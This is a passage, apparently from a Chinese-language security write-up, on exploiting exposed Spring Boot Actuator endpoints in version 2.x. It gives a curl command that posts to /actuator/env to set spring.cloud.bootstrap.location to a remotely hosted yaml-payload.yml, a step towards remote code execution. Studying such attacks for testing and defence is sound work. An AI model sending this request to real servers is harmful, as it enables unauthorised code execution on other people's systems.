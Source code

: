 ![image-20191201223430957](/assets/images/actuator_cloud_boostrap_location/boot-1-yamlprocessor.png)



## 0x03. 高版本测试

作者在文章中给出的漏洞环境是 Spring Boot 1.x 版本，而在实际的测试过程中，遇到很多情况是 Spring Boot 2.x 版本。 在 2.x 版本中，actuator 默认的 endpoint 前缀是 `/actuator`，并且修改环境变量的 `env` 接口的 post body 也变成了 json 格式，步骤为

修改环境变量

```shell
curl -XPOST -H "Content-Type: application/json" http://127.0.0.1:61234/actuator/env -d '{"name":"spring.cloud.bootstrap.location","value":"http://127.0.0.1:63712/yaml-payload.yml"}'
```
